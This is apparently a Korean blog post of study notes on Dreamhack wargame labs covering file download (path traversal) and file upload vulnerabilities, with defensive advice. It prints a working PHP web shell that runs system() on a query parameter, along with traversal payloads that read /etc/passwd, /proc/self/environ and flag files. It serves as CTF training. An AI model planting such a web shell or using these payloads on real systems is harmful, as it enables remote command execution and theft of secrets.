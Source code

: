 ```yaml
---
layout : single
title : "STAGE8. File Vulnerability (2)"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


# 드림핵 웹 ServerSide : File Vulnerability (2)

-  [x] File Download Vulnerability 실습
-  [x] 함께 실습 : image-storage
-  [x] 혼자 실습 : file-download-1

## File Download Vulnerability
파일 다운로드 취약점은 웹 서비스를 통해 서버의 파일 시스템에 존재하는 파일을 내려받는 과정에서 발생하는 보안 취약점이며, 이용자가 다운로드할 파일의 이름을 임의로 정할 수 있을 때 발생한다. 웹 서비스는 이용자가 파일을 다운받거나, 이미지를 불러올 때 특정 디렉토리에 있는 파일만 접근하도록 해야하는데, Path Traversal을 이용한 파일 다운로드 취약점은 파일 이름을 직접 입력받아 임의 디렉토리에 있는 파일을 다운로드 받을 수 있는 취약점을 뜻한다. <br>

|파일 다운로드 취약점이 자주 발생하는 URL 패턴|
|:------|
|https://vulnerable-web.dreamhack.io/download/?filename=notes.txt|
|https://vulnerable-web.dreamhack.io/download/?filename=../../../../../../etc/passwd|
|https://vulnerable-web.dreamhack.io/images.php?fn=6ed0dd02806fa89e233b84f4.png|


### File Download Vulnerability 실습

아래는 실습 서버 코드이다. 환경 변수로부터 가지고 오는 Secret 값을 파일 다운로드 취약점을 이용해 획득해보자

```python
# ...
Secret = os.environ("Secret")
# ...
@app.route("/download")
def download():
    filename = request.args.get("filename")
    content = open("./uploads/" + filename, "rb").read()
    return content
# ...
```

프로세스의 환경변수는 /proc/self/environ에서 확인할 수 있으며, 이용자가 프로세스 호출 전 환경변수를 bash의 명령어로 설정했다면, .bash_history에서도 이를 알 수 있다. 아래는 proc/self/environ에서 Secret 값을 읽은 사진이다

<img src = "/images/webbackground/14.png"><br>


### File Vulnerability 방지하기
업로드 취약점을 막으려면 개발자는 업로드 디렉토리를 웹 서버에서 직접 접근할 수 없도록 하거나, 업로드 디렉토리에서 CGI가 실행되지 않도록 해야하며, 업로드 된 파일 이름을 그대로 사용하지 않고 basepath와 같은 함수를 통해 파일 이름을 검증한 후 사용해야 한다. 또한, 허용할 확장자를 명시하여 그 외 확장자는 업로드될 수 없도록 해야한다.
<br><Br>
다운로드 취약점을 막으려면 요청된 파일 이름을 basepath와 같은 함수를 통해 검증하거나, 파일 이름과 1:1 맵핑되는 키를 만들어 이용자로부터 파일 이름이 아닌 키를 요청하도록 해야한다

## 함께 실습 : image-storage

파일 업로드 취약점을 이용해 flag.txt에 있는 Flag 획득하기

### 웹 서비스 분석
##### 인덱스 페이지

list.php와 upload.php로 이동하는 메뉴 출력

```php
<li><a href="/">Home</a></li>
<li><a href="/list.php">List</a></li>
<li><a href="/upload.php">Upload</a></li>
```

##### 파일 목록 리스팅

list.php는 $directory의 파일 중 ., .., index.html을 제외하고 나열한다

```php
<?php
    $directory = './uploads/';
    $scanned_directory = array_diff(scandir($directory), array('..', '.', 'index.html'));
    foreach ($scanned_directory as $key => $value) {
        echo "<li><a href='{$directory}{$value}'>".$value."</a></li><br/>";
    }
?> 
```

##### 파일 업로드

upload.php는 이용자가 업로드한 파일을 uploads 폴더에 복사하며 이용자는 http://host1.dreamhack.games:[PORT]/uploads/[FILENAME] 를 통해 접근할 수 있다. 같은 이름의 파일이 존재한다면 already exists라는 메세지를 반환한다. 업로드할 파일에 대한 어떠한 검사도 진행하지 않으므로, 웹 셸 업로드 공격에 취약하다. 

```php
<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>
```

### 익스플로잇

아래와 같은 php 웹셸 작성 후 업로드

```php
<html><body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form><pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?></pre></body></html>
```

업로드가 끝나면, 저장된 위치를 다음과 같이 보여준다

<img src = "/images/wargame/12.png"><br>

위 경로로 이동하여 업로드 된 파일을 연다

<img src = "/images/wargame/13.png"><br>

시스템 명령어 cat /flag.txt 를 통해 flag.txt에 저장된 글을 읽어온다

<img src = "/images/wargame/14.png"><br>

##### 위와 같은 공격으로부터 서비스를 보호하려면 ?

파일 업로드와 관련된 코드에 여러 검사 로직을 추가해야한다. 이 중 대표적인 방법은 파일의 확장자를 제한하는 것이다. 웹 리소스는 크게 정적 리소스와 동적 리소스로 분류할 수 있으며, 정적 리소스는 이미지, 비디오와 같이 서버에서 실행되지 않는 리소스, 동적 리소스는 php, jsp와 같이 서버에서 실행되는 것들을 가리킨다. 동적 리소스의 확장자를 제한하면 파일 업로드 취약점을 통한 RCE(Remote Code Execution : 원격 코드 실행) 공격으로부터 서버를 보호할 수 있다. <br>

또 다른 방법은 AWS, Azure, GCP 등의 정적 스토리지를 이용하는 것이다. 이는 서버의 파일 시스템을 이용하지 않기 때문에 파일 업로드 취약점이 웹 서버 공격으로 이어지는 것을 방지할 수 있다.

## 혼자 실습 : file-download-1

파일 다운로드 취약점이 존재하는 웹 서비스로, flag.py를 다운받으면 플래그를 획득할 수 있다.

```python
@APP.route('/read')
def read_memo():
    error = False
    data = b''

    filename = request.args.get('name', '')

    try:
        with open(f'{UPLOAD_DIR}/{filename}', 'rb') as f:
            data = f.read()
    except (IsADirectoryError, FileNotFoundError):
        error = True


    return render_template('read.html',
                           filename=filename,
                           content=data.decode('utf-8'),
                           error=error)
```
<br>
위와 같은 read 페이지의 코드를 살펴보면, name 파라미터 값으로 파일 이름을 확인하는 것을 알 수 있다. 이를 확실히 확인하기 위해, 임의의 글을 업로드 후 접근해보았다. 아래와 같이 temp라는 이름의 파일에 접근할 때에는 **호스트:포트/read?name=temp** 의 주소를 가지는 것을 볼 수 있다.

<img src = "/images/wargame/16.png"><br>

이를 바탕으로 name 파라미터의 값을 ../flag.py로 입력하여 주소를 이동하면 다음과 같이 flag에 대한 정보를 얻을 수 있다

<img src = "/images/wargame/15.png"><br>